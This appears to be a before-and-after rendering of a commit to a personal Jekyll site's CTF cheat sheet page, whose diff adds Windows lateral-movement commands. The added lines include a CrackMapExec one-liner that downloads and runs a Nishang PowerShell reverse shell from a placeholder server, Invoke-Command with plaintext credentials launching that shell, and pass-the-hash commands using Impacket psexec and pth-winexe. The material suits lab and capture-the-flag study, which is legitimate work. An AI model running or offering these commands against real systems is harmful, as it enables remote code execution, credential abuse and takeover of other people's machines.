

Before and after one commit to braaaax/braaaax.github.io, a Jekyll site: the page built from ctf.md, in a window 1280 px wide and 900 px high, scrolled down 5265 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 5805 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
updated site

````diff
--- a/ctf.md
+++ b/ctf.md
@@ -182,6 +182,7 @@ Import-Module C:\Path\to\name.ps1
 
 #INVOKE COMMAND -ICM
 Invoke-Command -ComputerName <name> -ScriptBlock {whoami}
+
 $username = 'DOMAIN\USERNAME'; $password = 'PASSWORD'; $securePassword = ConvertTo-SecureString $password -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $username,$securePassword; Invoke-Command -ComputerName BOX01 -Credential $credential -ScriptBlock {whoami};
 
 
@@ -213,3 +214,14 @@ $username = 'lab.local\LDAP'; $password = 'PASSWORD'; $DomainControllerIpAddress
 #UAC
 $secpasswd = ConvertTo-SecureString "1234test" -AsPlainText -Force; $mycreds = New-Object System.Management.Automation.PSCredential ("Administrator", $secpasswd); $computer = "BOXNAME"; [System.Diagnostics.Process]::Start("C:\temp\file.bat",$mycreds.Username,$mycreds.Password,$computer)
 ```
+
+Using Windows Credentials/hashes
+```powershell
+$username = 'DOMAIN\USERNAME'; $password = 'PASSWORD'; $securePassword = ConvertTo-SecureString $password -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $username,$securePassword; Invoke-Command -ComputerName BOX01 -Credential $credential -ScriptBlock {Invoke-PowerShellTcpOneLine.ps1};
+```
+
+```bash
+cme smb IP -u USERNAME -p PASSWORD -X 'IEX (New-Object Net.WebClient).DownloadString("http://SERVERIP:PORT/[Invoke-PowerShellTcpOneLine.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1)")'
+Impacket/examples/psexec.py -hashes NTHASH:LMHASH USERNAME@IP
+pth-winexe -U HASH //IP cmd
+```
````
Also changed, not shown: other parts of ctf.md (+1 -1 lines), _posts/2018-3-26-lky-labs.md (+1 -1 lines), 1 other file.
